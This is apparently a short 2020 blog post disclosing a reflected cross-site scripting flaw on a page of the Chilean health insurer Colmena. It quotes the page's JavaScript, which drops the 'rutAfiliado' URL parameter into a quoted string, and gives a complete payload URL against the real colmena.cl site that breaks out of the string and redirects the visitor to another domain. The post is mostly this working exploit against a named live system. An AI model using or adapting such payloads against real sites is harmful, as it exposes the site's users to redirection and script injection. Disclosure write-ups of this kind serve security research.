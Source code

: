 ```yaml
---
layout: post
author: cvxz
title:  "Isapre Colmena XSS"
date:   2020-01-23 18:12:46 -0300
categories: xss
---
```


{% highlight javascript %}
function verificaAcceso(){
    var rut  = null;
    
    rut = '111111111' != 'null' ? '111111111' : null;
    
    if (rut != null){
        document.getElementById("userAfiliado").value  = rut;
        document.getElementById("userAfiliado").disabled = true;
        buscarDocumentos();
    }else {
        document.getElementById("userAfiliado").value  = "";
        document.getElementById("userAfiliado").disabled = false;
    };
};
{% endhighlight %}

[https://www.colmena.cl/CDP/?rutAfiliado=';window.location="https://90.cl";//](https://www.colmena.cl/CDP/?rutAfiliado=';window.location="https://90.cl";//)